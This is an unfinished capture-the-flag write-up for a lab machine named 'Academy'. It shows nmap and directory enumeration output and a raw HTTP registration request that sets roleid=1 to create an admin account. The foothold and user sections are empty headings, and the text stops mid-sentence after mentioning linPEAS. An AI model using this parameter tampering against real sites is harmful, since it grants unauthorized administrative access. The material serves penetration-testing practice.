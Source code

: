 # Academy
```
Difficulty: Easy
Operating System: Linux
Hints: True
```
## Initial Enumeration
Running nmap scan (TCP) on the target shows the following results:
```
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.1 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 c0:90:a3:d8:35:25:6f:fa:33:06:cf:80:13:a0:a5:53 (RSA)
|   256 2a:d5:4b:d0:46:f0:ed:c9:3c:8d:f6:5d:ab:ae:77:96 (ECDSA)
|_  256 e1:64:14:c3:cc:51:b2:3b:a6:28:a7:b1:ae:5f:45:35 (ED25519)
80/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
|_http-server-header: Apache/2.4.41 (Ubuntu)
|_http-title: Did not follow redirect to http://academy.htb/
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```
As we can se we have only port 22 and 80 opened, so without further doing let's dig into port 80.  
Before openinig port 80 we can see in nmap that the site is performing a redirection to ```Did not follow redirect to http://academy.htb/``` so let's set up this host in our /etc/hosts file and let's start enumerating webserver.  
First thing, hitting the website, we can see an 'acedemy' page. The page shows an image and nothing more, so, let's start enumerating the webserver looking for files and directories:  
```
/images               (Status: 301) [Size: 311] [--> http://academy.htb/images/]
/home.php             (Status: 302) [Size: 55034] [--> login.php]
/admin.php            (Status: 200) [Size: 2633]
/login.php            (Status: 200) [Size: 2627]
/.                    (Status: 200) [Size: 2117]
/index.php            (Status: 200) [Size: 2117]
/register.php         (Status: 200) [Size: 3003]
/config.php           (Status: 200) [Size: 0]
```
as we can see we discovered various links.  
Now we can try various scan, but at least, if we try to register a new account with the roleid (found in the registration request set to 1) we can register an admin account.  
```
POST /register.php HTTP/1.1
Host: academy.htb
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:91.0) Gecko/20100101 Firefox/91.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 51
Origin: http://academy.htb
Connection: close
Referer: http://academy.htb/register.php
Cookie: PHPSESSID=bv9043rgksnjungmplpk3ktqtn
Upgrade-Insecure-Requests: 1
Sec-GPC: 1

uid=b0d&password=Password&confirm=Password&roleid=1
```
After we register the account we can login with the given credentials to admin.php, here we can find the below: 
![](Attachments/Pasted%20image%2020220518104752.png)

## Foothold (optional)

## User
### Method 1 - Technique 1
### Method 2 - Technique 2

## Root
Once we log in, following our standard approach, we can run linPEAS looking for possible privilege escalation vectors.    
After we run linPEAS, we can notice
